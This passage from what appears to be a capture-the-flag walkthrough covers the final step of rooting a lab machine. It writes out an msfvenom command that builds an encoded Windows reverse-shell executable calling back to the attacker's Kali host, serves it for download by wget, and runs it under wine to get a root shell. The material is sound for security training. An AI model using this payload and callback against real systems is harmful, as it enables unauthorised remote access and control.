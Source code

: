 So what we're going to do is create a windows executable which will open a meterpreter connection back to our Kali machine.

A command such as this will work:

    msfvenom -a x86 --platform windows -p windows/shell/reverse_tcp LHOST=10.0.2.5 LPORT=4444 -b "\x00" -e x86/shikata_ga_nai -f exe -o /var/www/html/winbin.exe

Note that I exported it into my webserver directory so that I could easily transfer it over to the client just using wget:

[<img src="{{ site.baseurl }}/images/sunrise/17.png"
 style="width: 800px;"/>]({{ site.baseurl }}/images/sunrise/17.png)     

[<img src="{{ site.baseurl }}/images/sunrise/18.png"
  style="width: 800px;"/>]({{ site.baseurl }}/images/sunrise/18.png)  

And after running the multi/handler listener on my kali machine from within metasploit, I can execute the exe and just watch the shell pop:

    sudo wine winbin.exe

[<img src="{{ site.baseurl }}/images/sunrise/19.png"
      style="width: 800px;"/>]({{ site.baseurl }}/images/sunrise/19.png)  

and after that it's just a case of grabbing the root flag using your new root shell:

[<img src="{{ site.baseurl }}/images/sunrise/20.png"
      style="width: 800px;"/>]({{ site.baseurl }}/images/sunrise/20.png)              
